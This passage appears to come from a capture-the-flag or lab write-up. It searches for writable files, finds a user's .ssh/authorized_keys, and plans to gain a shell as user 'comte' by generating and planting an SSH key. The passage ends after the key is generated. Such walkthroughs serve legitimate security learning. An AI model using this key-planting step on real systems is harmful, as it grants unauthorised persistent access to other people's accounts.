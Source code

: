 ![alt text](shell.png)

But we don't have permissions to read files im /home directory

Check which files we can edit
```
find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
/home/comte/.ssh/authorized_keys
/etc/systemd/system/exploit.timer
```

To get a shell as the comte user, we can simply add an SSH key to the authorized_keys file.

Generate ssh key
```
ssh-keygen -f id_ed25519 -t ed25519
cat id_ed25519.pub
```
